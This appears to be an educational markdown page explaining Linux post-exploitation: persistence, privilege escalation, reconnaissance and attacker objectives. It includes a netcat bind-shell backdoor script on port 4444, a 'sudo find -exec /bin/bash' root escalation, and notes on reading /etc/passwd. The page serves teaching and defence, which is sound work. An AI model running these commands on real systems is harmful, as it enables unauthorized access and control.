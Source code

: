 # Linux Post-Exploitation


# 👉 Overview

---

### 👀 What ?

Linux post-exploitation refers to the process of exploiting a Linux system after gaining initial access. It involves identifying and exploiting vulnerabilities to maintain and escalate access, gathering system and network information, and performing actions that fulfill the attacker's objectives.


### 🧐 Why ?

Understanding Linux post-exploitation is important for both attackers and defenders. For attackers, it provides a roadmap of how to maintain, escalate, and exploit access once initial access has been gained. For defenders and system administrators, understanding these techniques can help identify potential vulnerabilities and better secure their systems.


### ⛏️ How ?

Linux post-exploitation typically involves the following steps: 1. Maintaining Access: Attacker sets up a way to regain access to the system even if the initial entry point is closed. This can be done by creating backdoors or installing rootkits. 2. Escalating Privileges: Attacker attempts to gain higher-level privileges, such as root access, to gain more control over the system. 3. Gathering Information: Attacker collects information about the system and the network, such as system configuration, running services, and network topology. 4. Fulfilling Objectives: Attacker performs actions that fulfill their objectives, such as data exfiltration, system disruption, or further attacks on the network.


### ⏳ When ?

Linux post-exploitation techniques have been in use since the inception of networked computing, but they have become more sophisticated over time with advances in technology and methodologies.


# ⚙️ Technical Explanations

---

Linux post-exploitation is a critical phase in the cyber attack lifecycle following the initial breach into a Linux system. At this stage, the attacker seeks to further exploit system vulnerabilities for varied purposes such as data theft, system disruption, or launching additional attacks within the network.

The key steps in Linux post-exploitation are:

1. **Maintaining Access**: The attacker establishes a persistent presence on the system, ensuring future access even if the initial entry point is closed. This is usually achieved by creating backdoors or installing rootkits.
2. **Escalating Privileges**: The attacker seeks to gain higher privileges, such as root access, which provides complete control over the system. Techniques for privilege escalation include exploiting software vulnerabilities or configuration errors.
3. **Gathering Information**: The attacker collects detailed information about the system and network, including system configuration, running services, and network topology. This information is used to identify further vulnerabilities and plan subsequent attacks.
4. **Fulfilling Objectives**: The attacker executes their primary objectives, which can vary from data exfiltration, system disruption, planting malware, or preparing for further attacks on the network.

Comprehensive knowledge about the Linux operating system, system administration, networking, and cybersecurity principles are crucial for an attacker in this phase. Various tools and techniques are used, including scripts, exploits, and command-line tools. For defenders, understanding these techniques and steps can help build effective security measures and countermeasures. To mitigate the risk of post-exploitation, defenders should adopt a layered security approach, continuously monitor system and network activities, and promptly patch identified vulnerabilities.

Here is a detailed real-world example of Linux post-exploitation, where an attacker uses a shell script to maintain access and escalate privileges:

1. **Maintaining Access**: Suppose an attacker has gained initial access to a Linux system. They might upload a shell script backdoor to ensure future access. For instance, they could use a simple bash script like this:
    
    ```bash
    #!/bin/bash
    while true
    do
      nc -lvp 4444 -e /bin/bash
    done
    
    ```
    
    This script listens on port 4444 and whenever a connection is established, it spawns a bash shell. The attacker can connect to this backdoor using the `netcat` command from their machine: `nc [target IP] 4444`.
    
2. **Escalating Privileges**: After maintaining access, the attacker might want to escalate their privileges. Often, misconfigured `sudo` permissions can be exploited. For instance, if `find` command has `sudo` permission without password, an attacker could run:
    
    ```bash
    sudo find . -exec /bin/bash \\;
    
    ```
    
    This would open a bash shell with root privileges.
    
3. **Gathering Information**: With root access, the attacker can gather more information about the system and the network. Commands like `ifconfig` for network configuration, `ps aux` for running processes, and `cat /etc/passwd` for user information can be useful.
4. **Fulfilling Objectives**: With full control over the system, the attacker can carry out their objectives. For instance, they could install a network sniffer to capture network traffic, or use the `dd` command to copy sensitive data.

Remember, these examples are for educational purposes only and should not be used maliciously. Understanding these techniques can help defenders secure their systems and develop effective countermeasures, such as regularly patching software vulnerabilities, monitoring system and network activities, and adopting a layered security approach.
